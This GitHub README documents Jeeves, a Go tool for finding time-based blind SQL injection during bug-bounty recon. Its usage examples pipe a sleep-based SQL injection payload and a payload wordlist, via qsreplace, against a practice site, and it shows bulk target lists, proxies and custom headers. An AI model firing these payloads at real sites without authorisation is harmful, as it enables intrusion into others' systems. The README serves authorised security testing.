 <h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## - Installation & Requirements:
```
> go install github.com/ferreiraklet/Jeeves@latest

OR

> git clone https://github.com/ferreiraklet/Jeeves.git

> cd Jeeves

> go build jeeves.go

> chmod +x jeeves

> ./jeeves -h
```
<br>


## - Usage & Explanation:
  * In Your recon process, you may find endpoints that can be vulnerable to sql injection,
  
    * Ex: https://redacted.com/index.php?id=1

    <br>
  
    Jeeves reads from stdin:
    
   
    
    `echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves --payload-time time_payload`
    <br>
  
    In --payload-time you must use the time mentioned in payload.
 
    <br>
    
    **You can use a file containing a list of targets as well**:
  
    `cat targets | jeeves --payload-time 5`
  
    <br>
    
 * **You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght**
    <br>
    * Another examples of usage:
  
    
      ```bash
       Usage:
       --payload-time,      The time from payload
       --proxy              Send traffic to a proxy
       -c                   Set Concurrency
       -H, --headers        Custom Headers
       -h                   Show This Help Message
      ```
       
       
  
    Ex 1 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5`
    
    <br>
    
    Ex 2 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves --payload-time 10`
    
    <br>
    
    Ex 3 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://ip:port"`
    
    <br>
    
    Ex 4 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://ip:port" -H "User-Agent: xxxx"`
    
    <br>
    
    You can specify more than one header, OBS: Be careful, the syntax must be exact the same, Ex:
    
    Ex 5 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 -H "Testing: testing;OtherHeader: Value;Other2: Value"`
    
    TIP:
    
    Using with sql payloads wordlist
    `cat sql_wordlist.txt | while read payload;do echo http://testphp.vulnweb.com/artists.php?artist= | qsreplace $payload | jeeves --payload-time 5;done`
    
    
    Warn: Does not follow redirects, If the Status Code is diferent than 200, it returns "Need Manual Analisys"

<br>


## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.
